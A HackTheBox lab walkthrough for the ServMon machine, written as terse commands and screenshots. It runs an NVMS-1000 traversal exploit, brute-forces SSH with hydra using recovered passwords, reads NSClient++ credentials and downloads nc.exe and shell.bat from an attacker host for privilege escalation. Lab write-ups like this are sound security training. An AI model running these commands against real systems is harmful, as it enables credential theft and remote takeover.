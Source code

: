 ### 15-Mar-24-Fri

[ServMon](https://app.hackthebox.com/machines/ServMon)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/44ff979e-f709-4978-92e5-218b42345017)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/2b171915-d18e-4c3a-a234-7438ffd5a8d4)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/5b193143-2df7-40de-8e91-006d66149650)

*Notes to do.txt*

```
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

*Confidential.txt*

```
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

https://github.com/AleDiBen/NVMS1000-Exploit/blob/master/nvms.py

```
python nvms.py 10.129.219.191 Users/Nathan/Desktop/Passwords.txt Passwords.txt
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a6a801b5-d25f-49db-a382-e77cc9e8a3ff)

```
++++++++++ BEGIN ++++++++++
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
++++++++++  END  ++++++++++
```

```
hydra -L Users.txt -P Passwords.txt ssh://10.129.219.191:22 -t 4 -V
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/bd576dbb-3b39-494d-bd2b-39524ca532d4)

```
[22][ssh] host: 10.129.219.191   login: Nadine   password: L1k3B1gBut7s@W0rk
```

```
ssh Nadine@10.129.219.191
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/61d7350e-59a4-4411-9e2c-63a745a88e56)

```
eba203a9c395aef828f6801967cca9bd
```

```
type nsclient.ini
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/9059e2c6-e2cd-4b7e-8176-9009408bb4f8)

```
nscp.exe --version
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/25030114-a04f-48d6-8302-1fdab44eefd5)

NSClient++, Version: 0.5.2.35 2018-01-28, Platform: x64

```
ssh -L 8443:127.0.0.1:8443 nadine@10.129.219.191
```

https://127.0.0.1:8443

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/67ac8814-92dd-43b1-a388-54e8392b028f)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/00a70d61-cc52-4a0c-b39c-e5620b13fe95)

```
ew2x6SsGTxjRwXOT
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/0347c706-e6d1-4276-b472-59e3f48c34b0)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/75e77ec1-d328-46a8-8b8a-fe4f321756c6)

https://github.com/xtizi/NSClient-0.5.2.35---Privilege-Escalation

https://www.exploit-db.com/exploits/46802

```
wget http://10.10.16.5:8000/nc.exe -o nc.exe
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a9c6f90b-74c0-485d-a918-e737ca18cf64)

```
powershell wget http://10.10.16.5/nc.exe -outfile nc.exe
```

```
powershell wget http://10.10.16.5/shell.bat -outfile shell.bat
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ff0dbd6a-4b09-460b-bcf1-3825d822b431)

